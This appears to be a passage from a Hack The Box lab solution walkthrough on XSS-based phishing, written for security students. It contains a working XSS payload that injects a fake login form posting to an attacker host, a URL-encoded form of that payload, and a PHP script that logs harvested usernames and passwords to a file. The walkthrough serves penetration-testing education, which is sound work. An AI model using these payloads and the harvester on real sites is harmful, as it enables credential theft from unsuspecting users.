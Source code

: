 Subsequently, the final XSS payload becomes:

Code: javascript

```javascript
'><script>document.write('<h3>Please login to continue</h3><form action=http://PWNIP:PWNPO><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();</script><!--
```

![[HTB Solutions/CPTS/z. images/2315f1da18ac1bbdb5139ed6d58fb9e6_MD5.jpg]]

Afterward, students need to use the PHP script provided in the module's section and save it as "index.php" under `/tmp/tmpserver/` (a directory which they need to make) in Pwnbox/`PWNIP`, making sure that `STMIP` is replaced with the IP address of the spawned target machine:

Code: php

```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://STMIP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

Thereafter, students need to start a PHP server (using a port number other than 80, since it is already in use in Pwnbox) in `/tmp/tmpserver/` where "index.php" exists:

Code: php

```php
php -S 0.0.0.0:8080
```

```javascript
┌─[us-academy-1]─[10.10.14.55]─[htb-ac413848@pwnbox-base]─[/tmp/tmpserver]
└──╼ [★]$ php -S 0.0.0.0:8080

[Mon Jul 18 05:20:12 2022] PHP 7.4.21 Development Server (http://0.0.0.0:8080) started
```

Students then need to visit the page `/phishing/send.php` and provide the full URL of the XSS payload injected web page:

`http://PWNIP/phishing/index.php?url=%27%3E%3Cscript%3Edocument.write%28%27%3Ch3%3EPlease+login+to+continue%3C%2Fh3%3E%3Cform+action%3Dhttp%3A%2F%2FPWNIP%3APWNPO%3E%3Cinput+type%3D%22username%22+name%3D%22username%22+placeholder%3D%22Username%22%3E%3Cinput+type%3D%22password%22+name%3D%22password%22+placeholder%3D%22Password%22%3E%3Cinput+type%3D%22submit%22+name%3D%22submit%22+value%3D%22Login%22%3E%3C%2Fform%3E%27%29%3Bdocument.getElementById%28%27urlform%27%29.remove%28%29%3B%3C%2Fscript%3E%3C%21--`

![[HTB Solutions/CPTS/z. images/9151329abf14cc2d614e3ab7ce21aecf_MD5.jpg]]
